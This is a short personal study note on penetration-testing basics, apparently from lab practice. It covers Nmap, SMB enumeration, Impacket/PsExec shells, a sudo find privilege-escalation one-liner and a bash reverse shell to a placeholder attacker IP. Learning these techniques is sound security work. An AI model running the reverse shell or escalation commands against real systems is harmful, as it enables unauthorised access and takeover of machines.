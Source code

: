 ```yaml
---
title: "2022-07-08"
tags:
  - hacking
programming-languagues:
created: 2022-07-08
---
```

# 2022-07-08
---
## Nmap
- Can use the `-Pn` switch to enumerate machines when packets are blocked by firewall.

## SMB
- Sever Message Block
- Usually port 445

```bash
smbclient -L {taget_IP} -U Administrator
```

## Impacket
It is a framework written in Python for working with network protocols. It is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB and MSRPC) the protol implementation itself. 

Contains dozens of amazing tools for interacting with Windows systems and applications, many of which are ideal for attacking Windows and Active Directory.

**Impacket** creates a remote service by uploading a randomly-named executable on the ADMIN$ share on the remote system and then register it as a Windows service.This will result in having an interactive shell available on the remote Windows system via TCP port 445 .  

**PsExec** is  a portable tool that lets you run processes remotely using any user's credentials.

It requires credentials for a user with local administrator privileges or higher since reading/writing to the ADMIN$ share is required. Once you successfully authenticate, it will drop you into a NT   AUTHORITY\SYSTEM shell.

## Reversed File
```bash
strings login.php.swp >> file.txt  
tac file.txt
```

## Privilege Escalation
Using the find command:

```bash
sudo find . -exec /bin/sh \; -quit
```

## Reverse Shell
```bash
/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/LISTENING_PORT 0>&1'
```

## More random stuff
List strings in the file:

```bash
strings -n 10 <filename>
```